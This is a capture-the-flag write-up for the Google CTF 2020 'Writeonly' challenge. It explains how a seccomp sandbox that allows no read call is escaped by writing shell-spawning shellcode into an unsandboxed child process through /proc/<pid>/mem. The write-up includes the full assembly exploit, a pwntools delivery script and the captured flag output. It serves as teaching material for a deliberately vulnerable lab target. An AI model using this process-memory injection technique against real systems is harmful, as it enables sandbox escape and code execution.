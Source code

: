 # Writeonly

**Problem Description:**

> This sandbox executes any shellcode you send. But thanks to seccomp, you won't be able to read /home/user/flag.<br>
>
> [Attachment](./0b7877f4d70435dae7d7585532c5fa96ea2cadb0aa8e35be371b8e575d2ecd51ad6d2588a7e2493ff048a541610381b1b284917a820673cce108ea107836d238)<br>
>
> `writeonly.2020.ctfcompetition.com 1337`

## Solution

I got tired of running `file` on the attachment and figured it'd be a `zip` and just unzipped it. There were three files:

- [Makefile](./Makefile)
- [chal.c](./chal.c)
- [chal](./chal)

Since the source code was given, I figured I'd take a look at it. The very second function looked rather interesting:

```c
void setup_seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
  ...
  ret |= seccomp_load(ctx);
  if (ret) {
    exit(1);
  }
}
```

Looks like an inclusion list for syscalls, and as the description hinted, `read` wasn't one of them :(

Heading down a bit, we see the following:

```c
void check_flag() {
  while (1) {
    char buf[4] = "";
    int fd = check(open("/home/user/flag", O_RDONLY), "open(flag)");
    if (read(fd, buf, sizeof(buf)) != sizeof(buf)) {
      err(1, "read(flag)");
    }
    close(fd);
    if (memcmp(buf, "CTF{", sizeof(buf)) != 0) {
      errx(1, "flag doesn't start with CTF{");
    }
    sleep(1);
  }
}

int main(int argc, char *argv[]) {
  pid_t pid = check(fork(), "fork");
  if (!pid) {
    while (1) {
      check_flag();
    }
    return 0;
  }

  printf("[DEBUG] child pid: %d\n", pid);
  void_fn sc = read_shellcode();
  setup_seccomp();
  sc();

  return 0;
}
```

So, the program `fork`s itself into a parent and child. The parent:

1. Prints the child's PID
2. Reads the shellcode from `stdin`
3. Sets up seccomp
4. Runs the shellcode

Meanwhile, the child:

1. Infinitely loops, calling `check_flag` each iteration. 
2. `check_flag`, also infinitely loops and reads and compares the first 4 bytes of the flag every second...

Eventually, I noticed the child will never call `setup_seccomp` and can thus call any syscall it desires (which is why, it is able to call `read` in `check_flag`). Furthermore, the child PID was also being printed out by the parent. Thus, our shellcode must most likely tamper with the child somehow to read the flag.<sup name="rn1">[[1]](#fn1)</sup>

However, I was at a loss on how to progress, as there seemed to be no way for us to interact with the child, no IPC, nothing. Breadsticks came in clutch, and realized that we could write to `/proc/<pid>/mem`. So, I wrote the following [snippet](./exploit.asm), to make the parent overwrite some instructions in the child's `check_flag` to spawn a shell:<sup name="rn2">[[2]](#fn2)</sup>

```assembly
bits 64

write equ 1
open equ 2
lseek equ 8
execve equ 59
wait4 equ 61
O_WRONLY equ 1
SEEK_SET equ 0
snprintf equ 47e660h ; thanks for no PIE and linking snprintf
patch_offset equ 40223ah ; check_flag+8 (start of while loop body)

main:
    push rbp ; snprintf needs stack to be aligned, so we push something
    ; snprintf(child_mem_path_buf, sizeof(child_mem_path_buf), "/proc/%d/mem", pid)
    mov rax, snprintf
    lea rdi, [rel child_mem_path_buf]
    mov rsi, child_mem_path_buf_size
    lea rdx, [rel child_mem_path_fmt]
    mov ecx, DWORD [rbp-4] ; get pid from the stack
    call rax

    ; open(child_mem_path_buf, O_WRONLY)
    mov rax, open
    lea rdi, [rel child_mem_path_buf]
    mov rsi, O_WRONLY
    syscall

    mov r12, rax ; backup fd into r12
    ; lseek(fd, patch_offset, SEEK_SET)
    mov rax, lseek
    mov rdi, r12
    mov rsi, patch_offset
    mov rdx, SEEK_SET
    syscall

    ; write(fd, payload, payload_len)
    mov rax, write
    mov rdi, r12
    lea rsi, [rel payload]
    mov rdx, payload_len
    syscall

    infinite: jmp infinite ; for some reason this is needed for remote
    leave
    ret
    child_mem_path_fmt db "/proc/%d/mem", 0h
    child_mem_path_buf times 22 db 0h
    child_mem_path_buf_size equ $-child_mem_path_buf

payload:
    ; execve("/bin/sh", NULL, NULL);
    mov rax, execve
    lea rdi, [rel sh]
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ret
    sh db "/bin/sh", 0h

payload_len equ $-payload
```

I also came up with the following [script](./solve.py) to assemble and send the shellcode:

```python
from subprocess import run
from pwn import remote

run(["nasm", "exploit.asm"], check=True)
r = remote('writeonly.2020.ctfcompetition.com', 1337)
with open('exploit', 'rb') as f:
    payload = f.read()
    r.sendline(str(len(payload)))
    r.sendline(payload)
    r.interactive()
```

Running the above script:

```bash
$ python3 solve.py
[+] Opening connection to writeonly.2020.ctfcompetition.com on port 1337: Done
[*] Switching to interactive mode
[DEBUG] child pid: 2
shellcode length? reading 162 bytes of shellcode.
$ cat /home/user/flag
CTF{why_read_when_you_can_write}
```

## Footnotes

<a name="fn1" href="#rn1">[1]:</a> Upon saying a slightly different version of this sentence out loud to breadsticks, I realized exactly how ridiculous it sounds when interpreted without context...

<a name="fn2" href="#rn2">[2]:</a> The `snprintf` part of the shellcode was not necessary. I could have instead read `stdout` and crafted the shellcode at runtime using pwntools' `asm` function (it even recognizes constants like `SYS_open` too). I only came to know of this later through breadsticks :(